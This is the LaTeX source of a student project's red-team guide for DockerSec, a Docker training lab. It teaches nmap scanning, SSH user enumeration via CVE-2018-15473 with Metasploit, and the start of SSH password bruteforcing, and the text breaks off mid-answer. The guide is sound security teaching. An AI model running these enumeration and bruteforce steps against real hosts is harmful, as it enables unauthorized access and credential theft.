% Options for packages loaded elsewhere
\PassOptionsToPackage{unicode}{hyperref}
\PassOptionsToPackage{hyphens}{url}
%

%%%% SEITENRAENDER, SCHRIFTGROESSE UND ZEILENABSTAND NICHT ABAENDERN => SONST GIBT ES PUNKTEABZUG
\documentclass[a4paper,11pt,singlespacing]{article}
\usepackage[left=2.5cm,right=2.5cm,top=2.5cm]{geometry}
\usepackage{setspace}
\usepackage[utf8]{inputenc}
\usepackage{graphicx}
\usepackage{color}
\usepackage{hyperref}
\usepackage{biblatex}
\usepackage{listings,xcolor}
\usepackage{amsmath,amssymb}
\usepackage{iftex}

\ifPDFTeX
  \usepackage[T1]{fontenc}
  \usepackage[utf8]{inputenc}
  \usepackage{textcomp} % provide euro and other symbols
\else % if luatex or xetex
  \usepackage{unicode-math} % this also loads fontspec
  \defaultfontfeatures{Scale=MatchLowercase}
  \defaultfontfeatures[\rmfamily]{Ligatures=TeX,Scale=1}
\fi
\usepackage{lmodern}
\ifPDFTeX\else
  % xetex/luatex font selection
\fi
% Use upquote if available, for straight quotes in verbatim environments
\IfFileExists{upquote.sty}{\usepackage{upquote}}{}
\IfFileExists{microtype.sty}{% use microtype if available
  \usepackage[]{microtype}
  \UseMicrotypeSet[protrusion]{basicmath} % disable protrusion for tt fonts
}{}
\makeatletter
\@ifundefined{KOMAClassName}{% if non-KOMA class
  \IfFileExists{parskip.sty}{%
    \usepackage{parskip}
  }{% else
    \setlength{\parindent}{0pt}
    \setlength{\parskip}{6pt plus 2pt minus 1pt}}
}{% if KOMA class
  \KOMAoptions{parskip=half}}
\makeatother
\usepackage{xcolor}
\usepackage{color}
\usepackage{fancyvrb}
\newcommand{\VerbBar}{|}
\newcommand{\VERB}{\Verb[commandchars=\\\{\}]}
\DefineVerbatimEnvironment{Highlighting}{Verbatim}{commandchars=\\\{\}}
% Add ',fontsize=\small' for more characters per line
\newenvironment{Shaded}{}{}
\newcommand{\AlertTok}[1]{\textcolor[rgb]{1.00,0.00,0.00}{\textbf{#1}}}
\newcommand{\AnnotationTok}[1]{\textcolor[rgb]{0.38,0.63,0.69}{\textbf{\textit{#1}}}}
\newcommand{\AttributeTok}[1]{\textcolor[rgb]{0.49,0.56,0.16}{#1}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.25,0.63,0.44}{#1}}
\newcommand{\BuiltInTok}[1]{\textcolor[rgb]{0.00,0.50,0.00}{#1}}
\newcommand{\CharTok}[1]{\textcolor[rgb]{0.25,0.44,0.63}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.38,0.63,0.69}{\textit{#1}}}
\newcommand{\CommentVarTok}[1]{\textcolor[rgb]{0.38,0.63,0.69}{\textbf{\textit{#1}}}}
\newcommand{\ConstantTok}[1]{\textcolor[rgb]{0.53,0.00,0.00}{#1}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.00,0.44,0.13}{\textbf{#1}}}
\newcommand{\DataTypeTok}[1]{\textcolor[rgb]{0.56,0.13,0.00}{#1}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.25,0.63,0.44}{#1}}
\newcommand{\DocumentationTok}[1]{\textcolor[rgb]{0.73,0.13,0.13}{\textit{#1}}}
\newcommand{\ErrorTok}[1]{\textcolor[rgb]{1.00,0.00,0.00}{\textbf{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FloatTok}[1]{\textcolor[rgb]{0.25,0.63,0.44}{#1}}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.02,0.16,0.49}{#1}}
\newcommand{\ImportTok}[1]{\textcolor[rgb]{0.00,0.50,0.00}{\textbf{#1}}}
\newcommand{\InformationTok}[1]{\textcolor[rgb]{0.38,0.63,0.69}{\textbf{\textit{#1}}}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.00,0.44,0.13}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.40,0.40,0.40}{#1}}
\newcommand{\OtherTok}[1]{\textcolor[rgb]{0.00,0.44,0.13}{#1}}
\newcommand{\PreprocessorTok}[1]{\textcolor[rgb]{0.74,0.48,0.00}{#1}}
\newcommand{\RegionMarkerTok}[1]{#1}
\newcommand{\SpecialCharTok}[1]{\textcolor[rgb]{0.25,0.44,0.63}{#1}}
\newcommand{\SpecialStringTok}[1]{\textcolor[rgb]{0.73,0.40,0.53}{#1}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.25,0.44,0.63}{#1}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.10,0.09,0.49}{#1}}
\newcommand{\VerbatimStringTok}[1]{\textcolor[rgb]{0.25,0.44,0.63}{#1}}
\newcommand{\WarningTok}[1]{\textcolor[rgb]{0.38,0.63,0.69}{\textbf{\textit{#1}}}}
\usepackage{graphicx}
\makeatletter
\def\maxwidth{\ifdim\Gin@nat@width>\linewidth\linewidth\else\Gin@nat@width\fi}
\def\maxheight{\ifdim\Gin@nat@height>\textheight\textheight\else\Gin@nat@height\fi}
\makeatother
% Scale images if necessary, so that they will not overflow the page
% margins by default, and it is still possible to overwrite the defaults
% using explicit options in \includegraphics[width, height, ...]{}
\setkeys{Gin}{width=\maxwidth,height=\maxheight,keepaspectratio}
% Set default figure placement to htbp
\makeatletter
\def\fps@figure{htbp}
\makeatother
\setlength{\emergencystretch}{3em} % prevent overfull lines
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\setcounter{secnumdepth}{-\maxdimen} % remove section numbering
\ifLuaTeX
\usepackage[bidi=basic]{babel}
\else
\usepackage[bidi=default]{babel}
\fi
\babelprovide[main,import]{english}
% get rid of language-specific shorthands (see #6817):
\let\LanguageShortHands\languageshorthands
\def\languageshorthands#1{}
\ifLuaTeX
  \usepackage{selnolig}  % disable illegal ligatures
\fi
\IfFileExists{bookmark.sty}{\usepackage{bookmark}}{\usepackage{hyperref}}
\IfFileExists{xurl.sty}{\usepackage{xurl}}{} % add URL line breaks if available
\urlstyle{same}
\hypersetup{
  pdftitle={Red Team Documentation},
  pdfauthor={Stéphane SIMON, Rémi JARDRET},
  pdflang={en},
  pdfsubject={Documentation for pentesting on DockerSec},
  hidelinks,
  pdfcreator={LaTeX via pandoc}}


%opening
\title{DockerSec: Cybersecurity Training and Testing Environment}
\author{
	Rémi JARDRET 20741372,
	Stéphane SIMON 21641381
	}


\begin{document}
% Absatzeinrückung verhindern
\setlength{\parindent}{0ex}


\begin{titlepage}
	
	\newcommand{\HRule}{\rule{\linewidth}{0.5mm}} % Defines a new command for the horizontal lines, change thickness here
	
	\center % Center everything on the page
	
	%----------------------------------------------------------------------------------------
	%	HEADING SECTIONS
	%----------------------------------------------------------------------------------------
		
	
	
\includegraphics[width=7cm]{Images/rwu_logo.png}\\[1.5cm] % Include a department/university logo - this will require the graphicx package
	
	\textsc{\LARGE University of Applied Sciences Ravensburg Weingarten}\\[1.5cm] 
	\textsc{\Large Department of
		Electrical Engineering
		and Computer Science}\\[0.5cm]
	\textsc{\large Bachelor Project}\\[0.5cm] 
	
	%----------------------------------------------------------------------------------------
	%	TITLE SECTION
	%----------------------------------------------------------------------------------------
	
	\HRule \\[0.4cm]
	{ \huge \bfseries DockerSec: Cybersecurity Training and Testing Environment}\\[0.4cm] 
	\HRule \\[3.5cm]
	
	%----------------------------------------------------------------------------------------
	%	AUTHOR SECTION
	%----------------------------------------------------------------------------------------
	
	\begin{minipage}{0.4\textwidth}
		\begin{flushleft} \large
			\emph{Author:}\\
   			Rémi \textsc{JARDRET}\\
			20741372\\
			Stéphane \textsc{SIMON}\\
			21641381
		\end{flushleft}
	\end{minipage}
	~
	\begin{minipage}{0.4\textwidth}
		\begin{flushright} \large
			\emph{Supervisor:} \\
			Herr Benjamin \textsc{Stähle}\\ % Supervisor's Name
            \& \\
			Herr Norbert \textsc{Perk} % Supervisor's Name
		\end{flushright}
	\end{minipage}\\[5cm]
	
	% If you don't want a supervisor, uncomment the two lines below and remove the section above
	%\Large \emph{Author:}\\
	%John \textsc{Smith}\\[3cm] % Your name
	
	%----------------------------------------------------------------------------------------
	%	DATE SECTION
	%----------------------------------------------------------------------------------------
	
	{\large \today}\\[5cm] % Date, change the \today to a set date if you want to be precise
	
	%----------------------------------------------------------------------------------------
	%	LOGO SECTION
	%----------------------------------------------------------------------------------------

	%----------------------------------------------------------------------------------------
	
	\vfill % Fill the rest of the page with whitespace
	
\end{titlepage}


\tableofcontents
\pagebreak

\section{Introduction}\label{introduction}

This documentation aims to showcase the capabilities of our DockerSec
environment by presenting two scenarios involving sophisticated yet
accessible attacks for beginners. All you need is access to a system
with Docker installed and the \texttt{docker-compose.yml} file. Execute
the command \texttt{docker\ compose\ up\ -d} and patiently wait for the
setup to complete.

To open a terminal in a Docker container, use the command
\texttt{docker\ exec\ -it\ \textless{}container-name\textgreater{}\ /bin/bash}.
To list container names, execute \texttt{docker\ ps} and find them in
the leftmost column under the \texttt{NAMES} heading.

Always refer to the provided diagram of the environment to gain a
comprehensive understanding of the network configurations.

\newpage

\section{Scenario 1}\label{scenario-1}

In this scenario, our objective is to gain access to the system of PC1
despite the presence of firewalls and various network security measures.
Assume the role of the attacker, named Eve, and navigate through the
network to reach PC1, ultimately obtaining root access.

Diagram of Scenario 1:


\includegraphics{./Images/Diagram1.png}

\newpage

\subsection{Reconnaissance}\label{reconnaissance}

\subsubsection{Scanning}\label{scanning}

Normally an attacker doesn't know the network infrastructure as you
might be thanks to the schema of the system. Therefore, the attacker
needs to do some network scanning in order to get more knowledge on the
different hosts, services and firewall rules.

In this case, Eve is facing the first routeur ``DMZ\_External'',
therefore, it needs to find subnets attached to this routeur. To do so,
we will use \texttt{nmap}, a powerful network scanning tool:

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap} \OperatorTok{\textless{}}\NormalTok{IP}\OperatorTok{\textgreater{}}\NormalTok{/}\OperatorTok{\textless{}}\NormalTok{MASK}\OperatorTok{\textgreater{}}\NormalTok{ {-}T5}
\end{Highlighting}
\end{Shaded}

Using this command, we will be able to list all the hosts that are on
the given network, unless the firewall blocks the
icmp-echo-request/replies.

\paragraph{Questions}\label{questions}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  How many hosts are up on the subnet 192.168.4.0/24 ?
\item
  Can you find any other subnets ?
\item
  Can you find PC1 IP address using nmap ?
\end{enumerate}

\pagebreak

\paragraph{Answers}\label{answers}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  If you run the nmap command on the subnet 192.168.4.0/24, you are
  supposed to have the following result:

  
\includegraphics{./Images/Image07.png}
  \newline  As you can see, there are 2 hosts up (192.168.4.1 can be
  ignored, it is a docker bridge interface).
\item
  Using the nmap command you can specify other ip-ranges or masks.
  Therefore, using the subnet 192.168.1.0/21 for example, you can spot
  other Hosts. Don't forget, you are only observing the Hosts that
  \textbf{can} respond to pings. Some of them might be blocked be the
  firewalls, responding but never reaching Eve !
\item
  In order to find PC1, you need to use the option \texttt{-Pn}, this
  will allow you to omit the non-response of pings and still scan Hosts
  that might seem down. Using this command on 192.168.1.0/24 , you might
  have the following result:

  
\includegraphics{./Images/Image08.png}
  But if you pay attention to the hosts were you detect an open/closed
  port, you see one IP with an open SSH access ! Therefore PC1 has the
  ip 192.168.1.2 and an ssh port that seems open.
\end{enumerate}

\subsubsection{Enumeration}\label{enumeration}

The phase of enumeration consists into finding the potential version of
services and hosts. Let's focus on PC1, we know for the moment its IP
and an opened port. Usually port 22 is designed for SSH access, let's
find out !

To determine the version of service running on this port, we use nmap
with a bit more of options:

\begin{itemize}
\tightlist
\item
  \texttt{-sV} : this will be used to determine the Service Version
\item
  \texttt{-p\ 22}: We know that only the port 22 doesn't seem filtered
  by the firewalls, therefore, we can limit ourselves to this one for
  the moment.
\end{itemize}

\paragraph{Questions}\label{questions-1}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  What is the version of the service on port 22 of PC1 ?
\item
  Can you find what OS is PC1 running on ?
\end{enumerate}

\pagebreak

\paragraph{Answers}\label{answers-1}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  Using the \texttt{-sV} parameter with nmap, you can find that the
  version is \texttt{OpenSSH\ 4.7p1\ Debian\ 8ubuntu1\ (protocol\ 2.0)}
\item
  Using the \texttt{-O} parameter with nmap, you can determine that the
  OS is at 93\% a
  \texttt{Linux\ 4.X\textbar{}5.X\textbar{}2.6.X\textbar{}3.X}.
  Therefore it is useful to know the OS for the next phase,
  weaponization.
\end{enumerate}

\subsection{Weaponization}\label{weaponization}

\subsubsection{CVE-2018-15473}\label{cve-2018-15473}

During this phase, we will exploit a vulnerability in the
\texttt{OpenSSH} version that allows us to make some SSH user
enumeration. In other words, this will allow us to find the usernames
that can connect to PC1 using ssh protocol. That will allow us to avoid
using time consuming dictionaries and bruteforce.

Using the CVE-2018-15473, we will be able to list the ssh users, to do
so, we will use metasploit. At first, let's start the
\texttt{msfconsole}:


\includegraphics[width=0.6\textwidth,height=0.6\textheight]{./Images/Image09.png}

Now, let's start the database of Metasploit, this allows us to store and
reuse the data we will collect, this is very useful for scan automation:


\includegraphics[width=0.5\textwidth,height=0.5\textheight]{./Images/Image10.png}

(It is possible that it will show you a bunch of errors, but you can
check the status of the database using \texttt{msfdb\ status})

Once the database initialized, we we will use the following module
\texttt{auxiliary/scanner/ssh/ssh\_enumusers}. You can read all the
parameters to set using the \texttt{show\ options} command. Then, we
will set the following parameters, using
\texttt{set\ \textless{}PARAMETER\textgreater{}\ \textless{}value\textgreater{}},
to :

\begin{itemize}
\tightlist
\item
  \texttt{DB\_ALL\_USERS}: \texttt{true} --\textgreater{} it will add
  found users to the msfdb
\item
  \texttt{RHOST}: \texttt{192.168.1.2} --\textgreater{} IP address of
  PC1
\item
  \texttt{THREADS}: \texttt{10} --\textgreater{} for faster scanning
\item
  \texttt{USER\_FILE}:
  \texttt{/usr/share/seclists/Passwords/UserPassCombo-Jay.txt}
  --\textgreater{} a wordlist, you can use other like
  \texttt{rockyou.txt}, but results are not assured.
\end{itemize}

All parameters set, you can start the scan using \texttt{run} command.
If everything went well, you will end up with a bunch of
\texttt{{[}+{]}\ 192.168.1.2:22\ -\ SSH\ -\ User\ \textless{}usernames\textgreater{}\ found}.
This is a good news for us as we will focus only on those usernames at
the moment.

\subsubsection{SSH bruteforce}\label{ssh-bruteforce}

Now that we found plenty of SSH usernames, we will try to guess their
passwords. At first, we will check if some users have the same password
as the username (can be common). Otherwise, we will use
\texttt{rockyou.txt} to guess passwords.

If you use the command \texttt{creds}, you can see the content of the
msf database concerning the credentials. In our case, it saved the
result of the previous scan. Let's export it for later us with the
command \texttt{creds\ -o\ msfdb\_creds}:

\includegraphics[width=0.7\textwidth,height=0.7\textheight]{./Images/Image01.png}

You can read the content of the exported file and notice it has the CSV
format. For the use of the next module, we need a .txt format that
contains a user per line.

\paragraph{Questions}\label{questions-2}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  How can you convert the .csv file into a .txt file containing a
  username per line ?
\item
  Using the \texttt{search} command, can you find which module we will
  use next in order to bruteforce the ssh login ?
\end{enumerate}

\pagebreak

\paragraph{Answers}\label{answers-2}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Using the \texttt{awk} command, you can easily change the
  \texttt{msfdb\_creds} file into a proper .txt file :
  \texttt{bash\ \ \ \ \ awk\ -F\textquotesingle{},\textquotesingle{}\ \textquotesingle{}NR\textgreater{}1\ \{gsub(/"/,\ "",\ \$4);\ print\ \$4\}\textquotesingle{}\ msfdb\_creds\ \textgreater{}\ usernames.txt}
  Now, you should have a \texttt{usernames.txt} file containing only the
  usernames. Here is an explaination of the command parameter:

  \begin{itemize}
  \tightlist
  \item
    \texttt{-F\textquotesingle{},\textquotesingle{}} --\textgreater{}
    this is to specify that the comma is the delimiter
  \item
    \texttt{NR\ \textgreater{}1} --\textgreater{} this is to skip the
    first line of the line
  \item
    \texttt{\{gsub(/"/,\ "",\ \$4);\ print\ \$4\}} --\textgreater{} In
    two steps, we first remove the quotes of the forth column and then
    we print the forth column only
  \item
    \texttt{\textgreater{}\ usernames.txt} --\textgreater{} pipe the
    output into a file called \texttt{usernames.txt}
  \end{itemize}
\item
  If you search the following :

